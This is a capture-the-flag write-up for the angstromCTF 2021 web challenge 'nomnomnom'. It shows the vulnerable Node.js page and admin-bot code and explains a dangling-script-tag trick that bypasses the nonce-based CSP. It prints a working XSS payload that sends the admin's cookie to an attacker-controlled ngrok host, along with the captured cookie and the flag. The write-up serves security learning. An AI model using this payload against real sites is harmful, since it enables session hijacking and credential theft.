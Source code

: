 ```yaml
---
layout: post
title:  "nomnomnom - Web"
date:   2021-04-08 12:28:05 +0100
categories: writeups
---
```


```
Challenge: nomnomnom
Author: Shotokhan
Description: XSS with misconfigured CSP and page source
CTF: angstromCTF 2021
Category: Web
```

# Writeup
This Node.JS application comes with an interface with a game like the old video-game snake. Source code is provided.
After playing, you create a "share" with a POST request to /record, in which you send the share name and a score.
These parameters are "sanitized":
- name's maximum length is equal to 100;
- score must be a number greather than 1.
If everything goes well, you are redirected to /share/:shareName, where shareName is the hex representation of an 8-bytes UUID.
The resulting page is built like that:

```
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-${nonce}'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		${extra}${extra ? '<br /><br />' : ''}
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of ${score}! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by ${name}
		<script nonce='${nonce}'>
            function report() {
                fetch('/report/${req.params.shareName}', {
                    method: 'POST'
                });
            }
            
            document.getElementById('reporter').onclick = () => { report() };
         </script> 
		
	</body>
</html>
``` 

You may have noticed the following variables: nonce, extra, score, name.
- "Score" and "name" were provided with the POST request to /record.
- "Nonce" is hex-16-bytes-UUID, for the CSP.
- "Extra" contains the flag if you made the request with admin's cookie.
This cookie is used by a "visiter" when you call /report/:shareName with a POST request, in fact that endpoint calls visit function.

``` 
app.post('/report/:shareName', async function(req, res) {
	if (!(req.params.shareName in shares)) {
		return res.status(400).send('hey that share doesn\'t exist... are you a time traveller :O');
	}

	await visiter.visit(
		nothisisntthechallenge,
		`http://localhost:9999/shares/${req.params.shareName}`
	);
})
```

Visiter code:

```
async function visit(secret, url) {
	const browser = await puppeteer.launch({ args: ['--no-sandbox'], product: 'firefox' })
	var page = await browser.newPage()
	await page.setCookie({
		name: 'no_this_is_not_the_challenge_go_away',
		value: secret,
		domain: 'localhost',
		samesite: 'strict'
	})
	await page.goto(url)

	// idk, race conditions!!! :D
	await new Promise(resolve => setTimeout(resolve, 500));
	await page.close()
	await browser.close()
}
```

It's clear that our goal is to exploit an XSS vulnerability in order to get admin's cookie, and then to use that cookie to get the flag.
Let's try to do it using "name" parameter.
Well, with a CSP checker we can see that the policy specified is incomplete, and a script can be injected using the object tag, or maybe using a style tag.
We tried many things, testing them locally first, but browser's security mechanisms blocked us:
- an XSS payload injected in an object tag is in a sandbox, i.e. it can't access data outside the object (for example with window.parent.document we got errors regarding Same Origin Policy);
- we can force the admin to make arbitrary requests using XSS, but we need a CORS proxy to do that; it's important to note that cookie's domain is "localhost" and it has a "strict" same-site policy, so it will not be sent unless the request is made to localhost, and obviously you can't use a CORS proxy to make a request to localhost, and you can't make the request without the CORS proxy because it would have been blocked;
- we can try to inject code with the style tag (using background:url("...")) but the MIME type of the returned data is text/html, so not as expected, and it's blocked by another mechanism: CORB.
 
At last, we realized that in the resulting page there was no HTML between our user-provided name and the script tag with the nonce, so we tried with this payload:

```
<script src="data:, alert(1);"
```

Without closing script tag, as you can see. In the resulting page:

```
<script src="data:, alert(1);"
<script nonce='${nonce}'>
```

And in fact it gets executed; notice that this vulnerability is not about a misconfiguration of the CSP, but it is about the poor structure of the HTML doc.
At this point, we can inject an inline script, with an upper bound of 100 characters.
The idea is to send the cookie to webhook, but webhook.site's URL is too long, so we'll set-up ngrok and use the following payload:

```
<script src="data:, location.replace('http://[redacted: 12 chars].ngrok.io/?d=' + document.cookie);"
```

We finally got the cookie:

```
no_this_is_not_the_challenge_go_away=2e04632b78960b03a01fbfbfdbbcf058dd9a64623ac6071c92f047ded9f06519320aed058149352636609e8d6c7faa4eabc88b320321d7f8dcc4c65f87c6690c
```

And this is the flag:
actf{w0ah_the_t4g_n0mm3d_th1ng5}
